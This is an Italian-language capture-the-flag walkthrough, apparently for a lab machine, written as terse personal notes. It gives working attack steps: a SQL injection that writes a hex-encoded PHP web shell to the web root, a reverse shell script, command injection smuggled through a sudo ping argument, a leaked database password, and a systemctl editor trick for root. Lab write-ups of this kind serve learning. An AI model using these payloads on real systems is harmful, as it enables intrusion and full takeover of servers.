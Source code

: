 Cosa fare:

user:
1) faccio vari nmap, ecc ecc.
                  1> con un programmino mi accorgo di sql injection: uniscan -u url -qweds
                  2> quindi sqlmap -u --os-shell
                  3> senza sqlmap cod=1 UNION SELECT NULL,0x3c3f7068702073797374656d28245f4745545b27636d64275d293b203f3e,NULL,NULL,NULL,NULL,NULL into outfile '/var/www/html/shell.php'-- -
                  4> ottengo una shell attraverso sql injection
                  5> sono www-data, devo diventare pepper
                  6> mi scrivo uno script di reverse shell su /tmp
                  7> faccio sudo -l
                  8> faccio sudo -u pepper ....... -p e come ip di ping metto $(bash /tmp/script.sh)
                  9> ottengo shell pepper
                  10> cat di user.txt
                  11> ottengo anche user DBadmin e pass: imissyou (per phpmyadmin)
  2) root:
  mi sono accorto che posso eseguire systemctl come root!, quindi
  TF=$(mktemp)
echo /bin/sh >$TF
chmod +x $TF
SYSTEMD_EDITOR=$TF /bin/systemctl edit system.slice
e sei root!